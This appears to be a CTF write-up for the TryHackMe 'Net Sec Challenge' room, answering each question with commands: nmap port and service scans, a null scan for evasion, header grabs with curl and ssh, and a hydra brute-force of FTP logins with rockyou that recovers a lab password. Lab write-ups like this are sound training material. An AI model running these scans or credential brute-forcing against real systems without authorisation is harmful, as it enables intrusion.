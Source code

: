# Net Sec Challenge

**Room Link:** [https://tryhackme.com/room/netsecchallenge](https://tryhackme.com/room/netsecchallenge)



**What is the highest port number being open less than 10,000?**

```
nmap -sV -sT -O -p 1-10000 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (10).png" alt=""><figcaption></figcaption></figure>

**There is an open port outside the common 1000 ports; it is above 10,000. What is it?**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (5) (2) (3).png" alt=""><figcaption></figcaption></figure>

**How many TCP ports are open?**

6

**What is the flag hidden in the HTTP server header?**

```
curl http://$VICTIM -I
```

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

**What is the flag hidden in the SSH server header?**

```
ssh -v $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

**We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**

```
vsftpd 3.0.3
```

\
**We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?**

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://$VICTIM:10021
```

<figure><img src="../../.gitbook/assets/image (58) (2).png" alt=""><figcaption></figcaption></figure>

```
ftp $VICTIM  10021
Name (10.10.129.189:root): quinn
Password: andrea
ftp> get ftp_flag.txt
```

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

**Browsing to `http://10.10.129.189:8080` displays a small challenge that will give you a flag once you solve it. What is the flag?**

```
nmap -sN $VICTIM
```
